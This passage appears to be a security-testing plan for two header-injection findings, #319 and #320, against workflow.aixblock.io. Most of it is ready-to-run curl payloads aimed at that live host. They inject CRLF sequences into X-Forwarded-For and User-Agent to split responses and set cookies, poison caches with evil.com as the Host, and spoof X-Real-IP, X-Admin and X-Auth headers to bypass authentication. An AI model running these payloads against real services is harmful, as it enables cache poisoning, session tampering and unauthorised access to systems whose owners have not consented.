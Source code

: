 #### **#319: IP Header Injection**
**Current Status**: Header injection often not exploitable
**Improvement Strategy**:
1. **HTTP Response Splitting**: Test for HTTP response splitting attacks
2. **Cache Poisoning**: Test for cache poisoning opportunities
3. **Security Control Bypass**: Test for security control bypass
4. **Authentication Bypass**: Test for authentication bypass via headers
5. **Clear Exploitation**: Demonstrate clear exploitation impact

**Specific Tests to Run**:
```bash
# Test for HTTP response splitting
curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
  -H "X-Forwarded-For: 127.0.0.1\r\nSet-Cookie: malicious=value"

# Test for cache poisoning
curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
  -H "X-Forwarded-For: evil.com\r\nHost: evil.com"

# Test for security control bypass
curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
  -H "X-Forwarded-For: 127.0.0.1" \
  -H "X-Real-IP: 127.0.0.1"

# Test for authentication bypass
curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
  -H "X-Forwarded-For: admin" \
  -H "X-Real-IP: admin"
```

#### **#320: HTTP Header Injection**
**Current Status**: Header injection often not exploitable
**Improvement Strategy**:
1. **HTTP Response Splitting**: Test for HTTP response splitting attacks
2. **Cache Poisoning**: Test for cache poisoning opportunities
3. **Security Control Bypass**: Test for security control bypass
4. **Authentication Bypass**: Test for authentication bypass via headers
5. **Clear Exploitation**: Demonstrate clear exploitation impact

**Specific Tests to Run**:
```bash
# Test for HTTP response splitting
curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
  -H "User-Agent: Mozilla/5.0\r\nSet-Cookie: malicious=value"

# Test for cache poisoning
curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
  -H "User-Agent: evil.com\r\nHost: evil.com"

# Test for security control bypass
curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
  -H "User-Agent: admin" \
  -H "X-Admin: true"

# Test for authentication bypass
curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
  -H "User-Agent: authenticated" \
  -H "X-Auth: true"
```
